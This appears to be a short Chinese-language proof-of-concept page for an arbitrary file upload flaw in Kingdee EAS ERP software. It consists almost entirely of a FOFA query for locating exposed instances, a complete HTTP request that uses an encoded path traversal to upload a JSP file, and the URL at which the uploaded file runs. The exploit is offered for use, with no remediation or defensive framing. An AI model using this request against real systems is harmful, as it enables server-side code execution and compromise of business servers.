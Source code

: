 
## 金蝶EAS myUploadFile任意文件上传
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g9cSbQc2icEW80fDeYIQ78YeAVSBibGsibyzialJJWOTNHIVt7dpyC4CDibfPeaI3Apn7jn4zHwhPpsWfg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

## fofa
```
app="Kingdee-EAS"
```

## POC
```
POST /easportal/buffalo/%2e%2e/cm/myUploadFile.do HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySq4lDnabv8CwHfvx
Content-Length: 205

------WebKitFormBoundarySq4lDnabv8CwHfvx
Content-Disposition: form-data; name="myFile"; filename="test.jsp"
Content-Type: text/html

<%out.println("test");%>
------WebKitFormBoundarySq4lDnabv8CwHfvx--
```

jsp路径：

http://127.0.0.1/easportal/buffalo/../test.jsp
